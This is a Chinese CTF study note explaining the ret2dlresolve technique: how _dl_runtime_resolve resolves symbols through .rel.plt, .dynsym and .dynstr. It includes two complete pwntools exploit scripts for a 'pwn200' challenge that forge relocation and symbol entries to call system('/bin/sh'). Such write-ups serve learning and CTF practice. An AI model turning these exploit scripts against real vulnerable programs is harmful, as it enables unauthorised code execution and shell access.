










## 原理详解
动态装载器负责将二进制文件及依赖库加载到内存，该过程包含了对导入符号（函数和全局变量）的解析 
_dl_runtime_resolve(link_map_obj, reloc_index)作用是用于动态链接的函数，用于解析和解决运行时的符号引用。 
该函数有两个参数，第一个参数link_map_obj用于获取导入函数所需要的信息，link_map_obj通过访问.dynamic节，分别取出动态链接字符表.dynstr，动态链接符号表.dynsym，重定位.ret.plt的地址，参数reloc_index则标识了解析哪一个导入函数(reloc_index + rel_plt_addr就是所指向的Elf_Rel的指针)(rel_plt_addr是重定位表.ret.plt的地址) 

Elf_Rel->r_info的高24位为.dynstr的下标，利用dynstr_addr + ((Elf_Rel->r_info) >> 8)求出.dynsym表所在的Elf_sym指针，记作sym 

Sym -> st_name 作为 .dynstr 的下标，即利用dynstr_addr + (sym -> st_name), 求出当前函数在.dynstr所在的指针，记作str

在动态链接库中通过str查找到这个函数的地址，并且把找到的地址赋值给rel->r_offset所指向的地址（即.got.plt表的位置） 

最后调用这个函数 






## 看pwn200的题解

```
from pwn import *

context.log_level = 'debug'

elf = ELF('./a.out')
io = process('./a.out')
io.recv()

pppr_addr      = 0x080492d9     # pop esi ; pop edi ; pop ebp ; ret
pop_ebp_addr   = 0x080492db     # pop ebp ; ret
leave_ret_addr = 0x08049105     # leave ; ret

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt  = elf.plt['read']

plt_0    = elf.get_section_by_name('.plt').header.sh_addr        # 0x80483e0
rel_plt  = elf.get_section_by_name('.rel.plt').header.sh_addr    # 0x8048390
dynsym   = elf.get_section_by_name('.dynsym').header.sh_addr     # 0x80481cc
dynstr   = elf.get_section_by_name('.dynstr').header.sh_addr     # 0x804828c
bss_addr = elf.get_section_by_name('.bss').header.sh_addr        # 0x804a028

base_addr = bss_addr + 0x600    # 0x804a628

payload_1  = b"A" * 112
payload_1 += p32(read_plt)
payload_1 += p32(pppr_addr)
payload_1 += p32(0)
payload_1 += p32(base_addr)
payload_1 += p32(100)
payload_1 += p32(pop_ebp_addr)
payload_1 += p32(base_addr)
payload_1 += p32(leave_ret_addr)
io.send(payload_1)


reloc_index = base_addr + 28 - rel_plt //这个是dl_runtime_resolve函数的第二个参数，对应着fake_reloc存放的地址
fake_sym_addr = base_addr + 36 
align = 0x10 # because the size of Elf.rel is 0x10 
fake_sym_addr = fake_sym_addr + align //这个是r_sym需要用到的值，指代着fake_sym的地址
r_sym = (fake_sym_addr - dynsym) >> 4
r_type = 0x7
r_info = (r_sym << 8) + (r_type & 0xff)
fake_reloc = p32(write_got) + p32(r_info)
st_name = fake_sym_addr + 0x10 - dynstr //这个是str所用到的值，指代着system
st_bind = 0x1
st_type = 0x2
st_info = (st_bind << 4) + (st_type & 0xf)
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
payload_7 = b"AAAA"
payload_7 += p32(plt_0)
payload_7 += p32(reloc_index)
payload_7 += b"AAAA"
payload_7 += p32(base_addr + 80)
payload_7 += b"AAAA"
payload_7 += b"AAAA"
payload_7 += fake_reloc
payload_7 += b"A" * align
payload_7 += fake_sym
payload_7 += b"system\x00"
payload_7 += b"A" * (80 - len(payload_7))
payload_7 += b"/bin/sh\x00"
payload_7 += b"A" * (100 - len(payload_7))
io.sendline(payload_7)
io.interactive()
```

## 自己的理解
.rel.plt表实际上是plt表的重定位表
比如现在要使用bar函数，来看bar@plt的实现

第一行指令 jmp * (bar@got)
bar@got表示got中保存bar这个函数相应的项，如果该项已经被初始化，那么就会直接跳转到该函数；如果，没被初始化，那么bar@got这个表项的内容就是push n这个指令所在的地址，即从第一句跳转到第二句。
第二行指令是将n压入栈中，这个n是bar这个符号引用在重定位表.rel.plt中的下标，接着将moduleID压入栈中（moduleID实际上就是pwn教材里的link_map_obj）,然后跳转到dl_runtime_resolve当中，来完成符号解析和重定位工作，完成之后会将bar真正的地址填入到bar@GOT中
实际上ELF将GOT表拆分成了两个表，叫做.got和.got.plt，其中.got用来保存全局变量引用的地址，.got.plt用来保存函数引用的地址，也就是说对于外部函数的引用全部被分离出来放到了".got.plt"中
.got.plt前三项是有特殊意义的，分别含义如下：

基本的PLT结构如图：

结构代码如下

其中GOT + 4就是model ID(link_map_obj)，GOT+8就是dl_runtime_resolve()
PLT在ELF文件中以独立的段存放，段名通常叫做.plt，因为它本身是一些地址无关的代码，所以可以跟代码段等一起合并成同一个可读可执行的Segment被装载入内存
# 偷懒的方法
可以使用pwntools中自带的模块来构造dlresolve,以下是pwn200使用模块的题解
```
from pwn import *

context.binary = elf = ELF("./pwn200")
context.arch='i386'
context.log_level ='debug'

rop = ROP(context.binary)

dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = process("./pwn200")
io.recvuntil("\n")
payload = flat({112:raw_rop,256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```